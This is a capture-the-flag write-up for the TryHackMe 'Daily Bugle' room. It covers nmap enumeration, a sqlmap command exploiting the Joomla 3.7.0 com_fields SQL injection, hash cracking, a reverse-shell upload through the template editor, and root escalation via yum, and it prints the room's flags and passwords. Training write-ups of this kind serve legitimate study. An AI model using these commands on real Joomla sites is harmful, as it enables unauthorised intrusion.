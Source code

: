 ```yaml
---
title: "Daily Bugle - TryHackMe"
author: Ludovic COULON
date: 2021-01-28
hero: ./images/hero.png
excerpt: "Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum."
---
```


[TryHackMe | Daily Bugle](https://tryhackme.com/room/dailybugle)

![https://i.imgur.com/4xkRRJC.png](https://i.imgur.com/4xkRRJC.png)

Deploy the machine - it may take up to 2 minutes to configure (Hard 🙄)

---

### Setup

```bash
Desktop/TryHackMe/daily_bugle » nmap -A -vv 10.10.85.30 -oN nmap_result
```

```bash
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX

80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home

3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```

### Access the web server, who robbed the bank?

```bash
Spiderman
```

![./images/Untitled.png](./images/Untitled.png)

---

![https://i.imgur.com/fREnB0x.png](https://i.imgur.com/fREnB0x.png)

Hack into the machine and obtain the root user's credentials.

### What is the Joomla version?

```bash
# As you can see on the nmap report the blog is using joomla, let's use some tools to enumerate the version and see if there is something interesting..
# https://github.com/Tuhinshubhra/CMSeeK
[✔] CMS URL: https://joomla.org
[✔] Joomla Version: 3.7.0
```

![./images/Untitled1.png](./images/Untitled1.png)

Nice, now we have the version let's see if there is an exploit in this version on exploitdb for example.

![./images/Untitled2.png](./images/Untitled2.png)

Yep ! There is a SQLi available ! 🙌

![./images/Untitled3.png](./images/Untitled3.png)

The exploit tells us to basically use sqlmap, well.. let's do that I guess.

```bash
# sqlmap command
sqlmap -u "http://10.10.85.30/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

If you want, you can use this exploit written with python 

[NinjaJc01/joomblah-3](https://github.com/NinjaJc01/joomblah-3)

![./images/Untitled4.png](./images/Untitled4.png)

```bash

[$] Found user : 'Super User', 'jonah', 'jonah@tryhackme.com', 
Hashed password : '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
```

Nice this is exactly what we wanted, let's crack the password.

### What is Jonah's cracked password?

```bash
# Let's crack the hash with hashcat / john
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

![./images/Untitled5.png](./images/Untitled5.png)

After ~40-45 minutes the password has been cracked : `spiderman123`

Now that we have the administrator's password let's upload some reverse shell 👀

![./images/Untitled6.png](./images/Untitled6.png)

Now that we successfully connected let's upload something.

![./images/Untitled7.png](./images/Untitled7.png)

Go to the `Extensions/Templates/Templates` tab.

And create a php page

![./images/Untitled8.png](./images/Untitled8.png)

##### Bonus, you can use my own extension to generate php shell and many more things !

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

![./images/Untitled9.png](./images/Untitled9.png)

![./images/Untitled10.png](./images/Untitled10.png)

Now let's juste save and close the page to see the magic happen 😎

![./images/Untitled11.png](./images/Untitled11.png)

And voilà ! You have successfully uploaded a reverse shell !

Now we can access the configuration of joomla `/var/www/html/configuration.php`

![./images/Untitled12.png](./images/Untitled12.png)

```bash
Password : 'nv5uz9r3ZEDzVjNu';
```

### What is the user flag?

![./images/Untitled13.png](./images/Untitled13.png)

To see what is the name of the user I cd into the `/home` directory to list all of the available users, and the rest is pretty straightforward, just SSH into the account with the password that you have cracked earlier.

```bash
# First flag 
27a260fe3cba712cfdedb1c86d80442e
```

### What is the root flag?

![./images/Untitled14.png](./images/Untitled14.png)

Payload → gtfobins

[yum | GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo)

```bash
# Root flag
# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>